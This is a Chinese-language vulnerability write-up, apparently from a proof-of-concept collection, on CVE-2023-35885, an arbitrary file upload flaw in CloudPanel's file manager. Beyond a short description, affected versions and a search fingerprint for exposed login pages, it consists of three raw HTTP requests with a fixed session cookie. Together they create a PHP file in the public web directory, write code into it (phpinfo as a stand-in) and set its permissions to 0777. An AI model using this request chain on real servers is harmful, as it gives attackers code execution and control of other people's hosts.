


# cloudpanel makefile 任意文件上传漏洞 CVE-2023-35885

## 漏洞描述

cloudpanel makefile 接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>cloudpanel 2.0.0 >= 2.3.0   </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="CloudPanel | Log In"</a-checkbox></br>

## 漏洞复现

登陆页面


验证POC

```php
POST /file-manager/backend/makefile HTTP/1.1
Host: 
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 54
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/&name=Test.php
```



```php
POST /file-manager/backend/text HTTP/1.1
Host: 
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 289
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/Test.php&content=<?php phpinfo()?>
```



```php
POST /file-manager/backend/permissions HTTP/1.1
Host: 
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 65
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/Test.php&permissions=0777
```


```php
/Test.php
```